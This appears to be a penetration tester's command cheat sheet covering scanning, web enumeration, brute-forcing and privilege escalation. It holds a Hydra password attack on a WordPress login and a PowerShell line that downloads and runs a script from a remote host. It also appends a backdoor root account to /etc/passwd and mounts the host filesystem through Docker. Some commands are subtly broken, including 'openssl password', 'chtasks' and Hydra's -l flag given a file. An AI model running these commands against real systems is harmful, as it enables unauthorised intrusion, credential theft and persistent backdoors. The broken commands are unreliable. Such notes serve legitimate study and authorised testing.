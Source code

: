 # Nmap
sudo nmap -O -sS -p- "$target"
sudo nmap -sU -p- "$target"
sudo nmap -sC -sV "$target"
sudo nmap -O -sS -p- "$target" | tee synscan.txt && sudo nmap -sC -sV "$target" | tee scriptscan.txt && sudo nmap -sU -p- "$target" | tee udpscan.txt

# Sudo
sudo -l

# Web Enumeration (Dirb|gobuster)
dirb "http://$target" -r -z 10
gobuster dir -k --url "$target" --wordlist /usr/share/dirb/wordlists/common.txt | tee <(sed "s/.*\r//g" > gobuster.txt)
hydra -l /usr/share/commix/src/txt/usernames.txt -p /usr/share/seclists/Passwords/cirt-default-passwords.txt "$target" -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

# SMB
sudo nbtscan -r "$target"
nmap -v -p 139,445 --script=smb-vuln-* "$target"

# Upgrading Shell (pty)
python -c 'import pty; pty.spawn("/bin/bash")'

# Powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Also check out 16.2.3 for base64 executable transfer and execution

# Windows Priv Esc
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
net user [username]
ipconfig /all 
tasklist /SVC **all running proccesses**
route print **all routes**
netstat -ano  **all active tcp connections**
netsh advfirewall show currentprofile **current firewall settings**
chtasks /query /fo LIST /v **scheduled tasks**
wmic product get name, version, vendor **installed software**
wmic qfe get Caption, Description, HotFixID, InstalledOn **installed version**

# Linux Priv Esc
openssl password "$pasword" **generate password hash for $password**
echo "root2:$hash:0:0:root:/root:/bin/bash" >> /etc/passwd
docker run -v /:/mnt -it alpine

# WordPress (wp)
wpscan --url "http://$target" -e
